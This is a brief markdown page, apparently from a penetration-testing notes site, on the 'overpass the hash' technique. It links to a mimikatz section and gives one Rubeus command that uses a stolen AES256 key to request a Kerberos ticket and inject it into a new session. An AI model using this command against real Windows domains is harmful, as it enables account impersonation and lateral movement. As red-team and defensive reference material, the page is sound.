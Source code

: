 # Pass The Hash

### OverPass the Hash

#### With mimikatz

[#overpass-the-hash](../../exploitation-abuse/mimi-tools.md#overpass-the-hash "mention")

#### With Rubeus

{% code overflow="wrap" %}
```cmd
Rubeus.exe asktgt /user:<USER> /aes256:<HASH> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

